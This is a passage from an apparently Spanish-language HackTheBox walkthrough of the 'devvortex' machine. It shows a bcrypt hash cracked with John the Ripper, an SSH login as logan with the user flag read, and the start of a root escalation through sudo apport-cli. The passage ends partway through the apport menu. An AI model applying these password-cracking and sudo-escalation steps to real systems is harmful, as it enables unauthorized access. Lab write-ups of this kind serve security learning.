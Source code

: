 Guardaremos el codigo de logan en un archivo de texto y con john the ripper lo usaremos para descifrar la contraseña.

```
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)     
1g 0:00:00:15 DONE (2024-04-18 23:44) 0.06337g/s 88.97p/s 88.97c/s 88.97C/s iceman..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Nos conectaremos por ssh con la contraseña y leeremos el archivo que hay para tener la primera flag.


```
ssh logan@10.10.11.242   
```

```
logan@devvortex:~$ ls
user.txt
logan@devvortex:~$ cat user.txt
4bfa612fe7cd925d3dea39d58e477fce
logan@devvortex:~$ 
```
ESCALAR PRIVILEGIOS DE LOGAN A ROOT

Ahora que somos el usuario logan, debemos escalar a root para tener el control total de la maquina, haciendo "sudo -l" nos daremos cuenta que podemos ejecutar "apport-cli" con permisos de sudo

```
sudo /usr/bin/apport-cli -f
```
E iremos siguiendo los pasos, le indicaremos que queremos ver el informe con las respuestas : 1,2 y v.


```
*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?

```